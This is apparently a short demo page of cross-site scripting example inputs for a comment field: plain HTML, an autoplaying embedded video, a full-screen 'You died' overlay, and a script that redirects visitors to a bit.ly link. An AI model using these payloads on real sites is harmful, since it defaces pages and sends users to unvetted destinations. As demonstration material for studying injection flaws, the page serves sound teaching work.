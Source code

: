 ### XSS Examples:

**Well formatted comment**

```
<h1>Well formatted comment</h1>
<p>Lorem ipsum<p>
<p>Lorem ipsum<p>
```

**Comment with an iframe**

```
<iframe width="925" height="315" src="https://www.youtube.com/embed/dQw4w9WgXcQ?rel=0&amp;autoplay=1&amp;controls=0&amp;showinfo=0" frameborder="0" allowfullscreen></iframe>
```

**Dark souls style comment**

```
<div style="width:100%;height:100%;position: absolute;top: 0;left:0;background-color: black;color: red;text-align: center;padding: 20%;">
<h1>You died</h1>
</div>
```

**Comment with redirect**

```
<script>
window.location.replace('https://bit.ly/3MRMLyq');
</script>
```